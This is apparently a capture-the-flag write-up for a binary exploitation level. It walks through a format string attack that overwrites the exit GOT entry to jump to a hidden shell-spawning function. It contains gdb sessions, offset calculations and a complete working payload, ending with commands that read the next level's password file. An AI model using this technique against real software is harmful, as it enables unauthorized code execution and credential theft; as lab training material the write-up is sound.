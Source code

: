 In this level, `main` calls `n()` in which there is a `printf` function we want to use to reach an hidden function `o()` to open a shell. The thing is that `printf` is followed by an `exit` function that seems to be at the address `0x80483d0`.

```
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```

```
(gdb) disass 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:	jmp    *0x8049838
   0x080483d6 <+6>:	push   $0x28
   0x080483db <+11>:	jmp    0x8048370
End of assembler dump.
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
```

`0x8049838` is the address of `exit` in the Global Offset Table, we have to change for the address of `o()` which is `0x080484a4`.

A way to check if our theory's good: 
In gdb, set breakpoints at `printf` and `exit` addresses and manualy set the value. 

```
Breakpoint 1, 0x080484f3 in n ()
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080483d6
(gdb) set {int}0x8049838=0x80484a4
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:	0x080484a4
```

We calculate the number of bytes we want to overwrite it with: 134513828 - 4 = `134513824`

```
python -c 'print int("80484a4", 16)'
134513828
```

We calculate the offset, same way thant level3, level4, and it's equal to `4`.

```
(gdb) r <<< $(python -c "print 'A' * 20 + '%x ' * 20")
```

So we can write in a terminal :

```
(python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' && cat) | ./level5

...

whoami
level6
cat /home/user/level6/.pass
```